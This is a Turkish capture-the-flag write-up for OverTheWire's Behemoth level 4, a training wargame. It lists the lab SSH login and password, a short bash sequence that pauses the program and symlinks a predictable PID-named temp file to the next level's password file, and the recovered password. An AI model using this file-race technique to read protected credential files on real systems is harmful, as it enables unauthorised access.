 # Behemoth: Level 4 Writeup

    ssh behemoth4@behemoth.labs.overthewire.org -p 2221
    password: ietheishei

![0](img/4/0.png)

Programı çalıştırdığımız zaman `PID` not found diyerek bir hata veriyor. Yani aslında olmayan bir PID arıyor. Eğer biz program başladığı sırada duraklatıp aradığı `PID` ismine sahip bir dosya oluşturup onu da okumak istediğimiz parola dosyası ile sembolik bağlantısını kursak ve en sonunda da işlemi geri devam ettirsek nasıl olur 🤔 

```bash
/behemoth/behemoth4&
PID=$!
kill -STOP $PID
ln -s /etc/behemoth_pass/behemoth5 /tmp/$PID
kill -CONT $PID
echo $PID
```

![1](img/4/1.png)

`behemoth5:aizeeshing`
